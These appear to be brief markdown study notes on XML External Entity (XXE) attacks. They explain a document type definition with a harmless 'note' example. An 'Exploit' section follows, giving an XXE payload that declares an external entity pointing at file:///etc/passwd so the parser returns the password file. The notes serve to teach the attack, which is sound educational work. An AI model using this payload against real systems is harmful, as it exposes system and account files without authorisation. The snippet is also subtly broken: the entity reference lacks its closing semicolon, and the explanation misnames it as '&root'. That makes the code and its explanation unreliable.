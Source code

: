 # XML External Entity Hacking

## Document Type Definition (DTD)
Defines the structure of the document

note.dtd
```xml
<!DOCTYPE note [ 
    <!ELEMENT note (to,from,heading,body)> 
    <!ELEMENT to (#PCDATA)> 
    <!ELEMENT from (#PCDATA)> 
    <!ELEMENT heading (#PCDATA)> 
    <!ELEMENT body (#PCDATA)> 
]>
```

`!DOCTYPE note` -  Root element named note
`!ELEMENT note` - Parent element that must contain to, from, heading, body
`!ELEMENT to` - To element. Data type "#PCDATA"
`(#PCDATA)` - Parsable  data

request.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>mom</to>
    <from>me</from>
    <heading>flowers</heading>
    <body>Just kidding, XXE Attack!</body>
</note>
```

## Exploit
Instead  of reading the dtd file, we will read the password file.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY read SYSTEM 'file:///etc/passwd'>
]>
<root>&read</root>
```
`&root` - Output the result of SYSTEM 'file:///etc/passwd'


